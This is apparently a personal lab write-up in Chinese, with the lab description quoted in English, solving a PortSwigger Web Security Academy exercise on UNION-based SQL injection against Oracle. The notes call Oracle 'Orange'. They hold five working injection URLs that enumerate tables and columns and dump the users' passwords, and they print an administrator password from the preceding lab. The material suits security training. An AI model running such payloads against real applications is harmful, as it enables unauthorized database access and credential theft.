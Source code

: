 登录：

```
administrator:ow4q7ugyw9qa83axrsjh
```

### 实验10：Orange数据库检索2

Lab: SQL injection attack, listing the database contents on Oracle

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

心得：Orange特殊之FROM dual

#### 步骤

与之前 mysql 的 information_schema 表查询过程类似

1、判断当前表字段数

```http
https://0a76009b0309dae38154259000000094.web-security-academy.net/filter?category=Accessories' order by 2-- 
```

2、使用自带的 dual 表判断回显位置，为  '1'  '2'

```http
https://0a76009b0309dae38154259000000094.web-security-academy.net/filter?category=Accessories' union select '1','2' from dual-- 
```

3、列出所有表，找到敏感的用户表的表名为 `USERS_HHMPZK`

```http
https://0a76009b0309dae38154259000000094.web-security-academy.net/filter?category=Accessories' union select table_name,null from all_tables-- 
```

4、查表中的字段，为 `PASSWORD_BZDJLO` 和 `USERNAME_COHFTB`

```http
https://0a76009b0309dae38154259000000094.web-security-academy.net/filter?category=Accessories' union select column_name,null from all_tab_columns where table_name='USERS_HHMPZK'-- 
```

5、查数据

```http
https://0a76009b0309dae38154259000000094.web-security-academy.net/filter?category=Accessories' union select USERNAME_COHFTB,PASSWORD_BZDJLO from USERS_HHMPZK -- 
```
